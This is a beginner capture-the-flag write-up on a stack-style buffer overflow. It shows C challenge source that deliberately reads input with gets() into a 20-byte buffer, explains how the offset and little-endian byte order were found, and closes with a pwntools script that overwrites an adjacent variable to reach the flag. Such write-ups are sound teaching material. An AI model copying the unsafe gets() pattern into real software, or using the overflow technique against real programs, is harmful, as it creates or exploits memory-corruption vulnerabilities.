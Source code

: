 
# Bluffer Overflow 😏

## Overview & Description

Author : rennfurukawa

Points : Unknown

Difficulty : Beginner Friendly

Maybe it's your first time pwning? Can you overwrite the variable?

[chall.c](https://drive.google.com/file/d/1VaDHn8tl1eZcxAo1wNxlBnqFRrLFI6Ot/view?usp=drive_link)

## Hints

- Modified the variable with `specific` value
- Maybe **pwntools** can help you 😉

## TL;DR

- Overwrite the local variable with the character that have the exact value
- To find the character, you need to change the decimal value to hexadecimal
- Because of endianness, you need to reverse the character

## Exploitation

We were given the source code in C

<details>
<summary>chall.c</summary>

```c
#include <stdio.h>
#include <stdlib.h>

char buff[20];
int buff2;

void setup(){
	setvbuf(stdin, buff, _IONBF, 0);
	setvbuf(stdout, buff, _IONBF, 0);
	setvbuf(stderr, buff, _IONBF, 0);
}

void flag_handler(){
	FILE *f = fopen("flag.txt","r");
  	if (f == NULL) {
    	printf("Cannot find flag.txt!");
    	exit(0);
  }
}

void buffer(){
	buff2 = 0;
	printf("Can you get the exact value to print the flag?\n");
	printf("Input: ");
	fflush(stdout);
	gets(buff); 
	if (buff2 > 5134160) {
		printf("Too high!\n\n");
	} else if (buff2 == 5134160){
		printf("Congrats, You got the right value!\n");
	 	system("cat flag.txt");
	} else {
		printf("Sad, too low! :(, maybe you can add *more* value 0_0\n\n");
	}
	printf("Output : %s, Value : %d \n", buff, buff2);
}

int main(){
	flag_handler();
	setup();
	buffer();
}
```
</details>

So, to get the flag, we need to change the **buff2** value to **5134160**

First, we need to find the buffer, try to send character one by one, until the program return the value

After some trial and error, we find that the after the 20th input, the program turns the value

![](https://i.imgur.com/DZvy3au.png)

As we can see, if we send a character, program will turn its value to decimal

Based on ASCII Value, 65 is decimal of "A" character

![](https://i.imgur.com/D4ucS5n.png)

But, if we add character more than 1, the program will turn the value like this

![](https://i.imgur.com/ZqmeFNr.png)

This will happen if you store a byte into computer memory, program will read it in a certain order. So your value is converted to hexadecimal then reversed because of endianness. After that program will return it to decimal value.

To find the character, we need to change the value that we need to hexadecimal, then reverse it to big-endian

We can use python to do that

![](https://i.imgur.com/RN7HmgI.png)

We can pass that value to server and check if we get the flag

![](https://i.imgur.com/Rc3lILq.png)

And yeah, we get the flag !
    
Anyway, you can use pwntools to solve it more easier 😉

## Solve Script
    
<details>
<summary>solve.py</summary>

```python
from pwn import *

p = process("./bluffer")
# p = remote("HOST", PORT) # modified after competition

offset = 20

payload = flat({
	offset : [
		5134160
	]
})


p.sendline(payload)

p.interactive()
```